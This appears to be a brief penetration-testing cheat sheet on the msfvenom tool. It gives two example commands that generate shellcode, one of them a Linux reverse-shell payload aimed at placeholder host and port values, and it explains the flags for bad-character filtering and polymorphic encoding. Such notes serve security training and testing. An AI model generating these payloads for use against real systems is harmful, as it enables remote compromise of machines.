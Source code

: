 


Metasploit framework for crafting shellcode payloads. Combination of **msfpayload** and **msfencode**  
  
  
Ex:  
```bash
msfvenom -p windows/exec CMD="cmd.exe" EXITFUNC=thread -f raw -b "<bad chars>" > shellcode
```

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<localIP> LPORT=<localPort> -b "\x00\x20" -f py -v shellcode

```
  

**-p** - Payload (tab complete enabled)  
**-e** - Encoding (most common = x86/shikata_ga_nai --- A polymorphic encoder)  
**-b** - Specifies bad characters  
**-f** - Specifies output format  
**-v** - Specifies name of the variable  
  
**LHOST=** - local IP for reverse shells  
**LPORT=** - local port to connect to for reverse shells  
**EXITFUNC=thread** - utilized ExitThread API to prevent crashing the service completely assuming the exploited app is threaded,